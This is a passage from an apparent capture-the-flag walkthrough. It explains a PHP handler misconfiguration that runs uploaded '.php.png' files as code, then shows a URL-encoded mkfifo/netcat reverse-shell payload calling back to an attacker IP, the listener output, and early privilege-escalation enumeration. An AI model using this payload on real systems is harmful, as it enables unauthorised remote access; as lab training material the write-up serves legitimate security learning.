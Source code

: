 ### What? Why?

I was very confused at this point. It turns out this is a configuration
error in how the web server is deciding what to execute as code as
opposed to return a static file or an image. Details are
[here](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler).
The standard case is that php will only process files ending in `.php`.
The configuration error here means that as long as `.php` is somewhere
in the name it will process as php. I'll look into the configuration a
bit more in [Beyond Root](#beyond-root---php-misconfiguration).

### Shell

To get a real shell, I just visited
`/uploads/10_10_14_5.php.png?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E&1|nc%2010.10.14.7%20443%20%3E/tmp/f`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:53204.
    sh: no job control in this shell
    sh-4.2$ id
    uid=48(apache) gid=48(apache) groups=48(apache)



## Privesc to guly

### Enumeration

As apache, I can access the only home directory on the host for guly.
There are three files:



    bash-4.2$ ls -l
    total 12
    -r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
    -rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
    -r--------. 1 guly guly  33 Oct 30  2018 user.txt



I can't access `user.txt`, but the other two are interesting.
`crontab.guly` shows a config that would run
`php /home/guly/check_attack.php` every 3 minutes:



    bash-4.2$ cat crontab.guly 
    */3 * * * * php /home/guly/check_attack.php
